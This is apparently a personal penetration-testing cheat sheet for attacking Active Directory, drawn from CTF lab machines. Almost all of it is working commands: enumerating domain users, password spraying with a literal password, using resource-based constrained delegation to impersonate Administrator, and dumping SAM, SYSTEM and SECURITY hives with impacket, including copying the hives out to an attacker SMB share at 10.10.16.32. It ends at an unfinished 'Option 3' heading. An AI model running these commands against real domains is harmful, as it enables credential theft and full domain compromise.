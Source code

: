 ### Extract User List and Spray

Extract Domain Users List:
```
Get-DomainUser | Select-Object -ExpandProperty samaccountname > users.txt # Powersploit

impacket-lookupsid administrator.htb/olivia@10.129.44.101 | grep "SidTypeUser" |cut -d "\\" -f2| cut -d " " -f1 > users.txt

netexec ldap 10.129.44.101 -u michael -p Password123 --users | awk '{print $5}' | sed '1,4d' > users.txt # Check for garbage first

```

Spray:
```
netexec smb administrator.htb -d administrator.htb -u users.txt  -p UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
```

### Resource Based Contraint Delegation
Linux: (Add DC and Domain to /etc/hosts for this to work)
```
impacket-getST -spn 'cifs/HayStack.thm.corp' -impersonate 'Administrator' 'thm.corp/DARLA_WINTERS'

export KRB5CCNAME=Administrator@cifs_HayStack.thm.corp@THM.CORP.ccache

impacket-wmiexec THM.CORP/Administrator@HAYSTACK.THM.CORP -k -no-pass
```

### SeBackupPrivilege/SeRestorePrivilege

**Option 1**: Dump SAM and SYSTEM and retrieve the local Administrator Hash (Might be outdated on the DC since it relies on the NTDS.DIT file)

```
reg save HKLM\SAM SAM
reg save HKLM\SYSTEM SYSTEM

impacket-secretsdump -sam SAM.save -system SYSTEM.save LOCAL
```

**Option 2**: Dump SAM, SYSTEM and SECURITY (Might timeout during smb so its better to dump on the target machine and then exflitrate with separate commands)

```
impacket-smbserver -smb2support share /home/nabecos/Desktop
impacket-reg emily.oscars@cicada.htb backup -o \\\\10.10.16.32\\share
#or 
.\BackupOperatorToDA.exe -t \\CICADA-DC -o \\10.10.16.32\share\
.\BackupOperatorToDA.exe -t \\CICADA-DC -o C:\Users\svc-printer\Documents\

impacket-secretsdump -sam SAM.save -security SECURITY.save -system SYSTEM.save LOCAL
```

**Option 3**: Dump NTDS.DIT File
